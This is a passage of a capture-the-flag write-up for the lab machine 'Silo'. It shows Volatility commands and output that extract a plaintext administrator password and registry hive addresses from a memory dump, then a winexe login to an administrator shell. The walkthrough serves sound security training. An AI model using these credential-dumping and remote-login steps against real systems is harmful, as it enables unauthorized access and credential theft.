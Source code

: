 \`  
One of the useful plugins that we can use in this situation is lsadump. The lsadump plugin dumps the decrypted LSA secrets from the registry. This exposes information such as the default password (for systems with autologin enabled), RDP public keys, and credentials used by DPAPI .

`╭─[/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # volatility -f SILO-20180105-221806.dmp --profile=Win2012R2x64 lsadump   Volatility Foundation Volatility Framework 2.6   DefaultPassword   0x00000000 1e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................   0x00000010 44 00 6f 00 4e 00 6f 00 74 00 48 00 40 00 63 00` [`D.o.N.o.t.H.@.c`](mailto:D.o.N.o.t.H.@.c)`.   0x00000020 6b 00 4d 00 65 00 42 00 72 00 6f 00 21 00 00 00 k.M.e.B.r.o.!...`

`` DPAPI_SYSTEM   0x00000000 2c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ,...............   0x00000010 01 00 00 00 cf 25 94 31 34 9e ae 43 2d 8b 87 ac .....%.14..C-...   0x00000020 f2 a7 74 1c 6d ec 1c 04 08 43 a8 a6 a9 42 62 f7 ..t.m....C...Bb.   0x00000030 55 70 48 bb 17 7d 82 fe 79 49 02 bd 00 00 00 00 UpH..}..yI......` ``

\`  
As you can see in the lsadump results, we were able to acquire a plaintext password DoNotH@ckMeBro! .  
Since the SMB service is accessible over the network, we can use winexe to log in via SMB.

`   ╭─[/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # winexe -U Administrator //10.10.10.82 cmd.exe   Enter password: DoNotH@ckMeBro!`

`Microsoft Windows` [`Version 6.3.9600`](https://dev.toc/) `2013 Microsoft Corporation. All rights reserved.`

`` C:\Windows\system32>whoami   whoami   silo\administrator` ``

\`  
Another way we could have escalated privileges is through the hivelist plugin .

\`

\`

`   ╭─[/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hivelist   Volatility Foundation Volatility Framework 2.6   Virtual Physical Name`

---

`0xffffc0000100a000 0x000000000d40e000 \??\C:\Users\Administrator\AppData\Local\Microsoft\Windows\UsrClass.dat   0xffffc000011fb000 0x0000000034570000 \SystemRoot\System32\config\DRIVERS   0xffffc00001600000 0x000000003327b000 \??\C:\Windows\AppCompat\Programs\Amcache.hve   0xffffc0000001e000 0x0000000000b65000 [no name]   0xffffc00000028000 0x0000000000a70000 \REGISTRY\MACHINE\SYSTEM   0xffffc00000052000 0x000000001a25b000 \REGISTRY\MACHINE\HARDWARE   0xffffc000004de000 0x0000000024cf8000 \Device\HarddiskVolume1\Boot\BCD   0xffffc00000103000 0x000000003205d000 \SystemRoot\System32\Config\SOFTWARE   0xffffc00002c43000 0x0000000028ecb000 \SystemRoot\System32\Config\DEFAULT   0xffffc000061a3000 0x0000000027532000 \SystemRoot\System32\Config\SECURITY   0xffffc00000619000 0x0000000026cc5000 \SystemRoot\System32\Config\SAM   0xffffc0000060d000 0x0000000026c93000 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT   0xffffc000006cf000 0x000000002688f000 \SystemRoot\System32\Config\BBI   0xffffc000007e7000 0x00000000259a8000 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT   0xffffc00000fed000 0x000000000d67f000   \??\C:\Users\Administrator\ntuser.dat   `

Now we can dump the hashes by supplying the addresses related to SYSTEM and SAM.
